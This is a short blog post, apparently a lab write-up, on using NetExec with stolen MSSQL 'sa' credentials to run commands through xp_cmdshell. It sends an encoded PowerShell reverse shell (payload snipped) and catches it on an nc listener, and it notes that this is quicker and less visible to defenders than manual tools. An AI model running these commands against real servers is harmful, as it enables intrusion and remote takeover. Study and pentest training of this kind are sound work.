

NetExec for Automating Lateral Movement via Compromised MSSQL
Manual Pentesting Overview
When facing credentials that can be used as logon via MSSQL in Active Directory, ethical hacker would use it to logon, then enabling the xp_cmdshell to launch encoded PowerShell strings to fetch reverse-shell on the machine, giving a more proper Shell, TTY, and more.
The tools mainly used on such scenario are mssqlclient.py from impacket, PS: This posts doesn't judge any software. However I notice when mssqlclient being used, the time consuming to get a Shell are pretty long and it means more detailed log-views in Defender side.
From there I will only use NetExec for compromised MSSQL scenario, and getting what RCE on the machine, with out having our hands dirty via manual scenario.
Practical NetExec Usage
PS: Another thing why NetExec, it's because the software are smart enough to run enable_xp_cmdshell with-out being asked, making it more suitable for Pwn3d! indicator.
Objectives: Getting RCE on the Machine via NetExec, first we validate our credential
┌──(byt3n33dl3㉿kali)-[~]
└─$ netexec mssql DC01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x whoami
MSSQL 10.129.232.128 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL 10.129.232.128 1433 DC01 [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL 10.129.232.128 1433 DC01 [+] Executed command via mssqlexec
MSSQL 10.129.232.128 1433 DC01 sequel\sql_svcIt's a Pwn3d! we can shell on it. Now for the part why I made this blog (No need to logon for command Execution). Basically from www.revshells.com I just create an encoded PowerShell RCE.
┌──(byt3n33dl3㉿kali)-[~]
└─$ netexec mssql DC01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x "powershell -e JA. . .[SNIP]. . .pAA=="
MSSQL 10.129.232.128 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL 10.129.232.128 1433 DC01 [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
[03:49:06] ERROR Error when attempting to execute command via xp_cmdshell: timed out mssqlexec.py:30
[03:49:12] ERROR [OPSEC] Error when attempting to restore option 'xp_cmdshell': timed out mssqlexec.py:47
MSSQL 10.129.232.128 1433 DC01 [+] Executed command via mssqlexecAnd we just need to wait on our listener, instatly gaining connection-back:
┌──(byt3n33dl3㉿kali)-[~]
└─$ sudo nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.232.128] 59059
whoami
sequel\sql_svc
PS C:\Windows\system32>
Shellls!!, I think that's all about it.
Moreover, Proton me if you have further question and suggestion.
Happy hacking!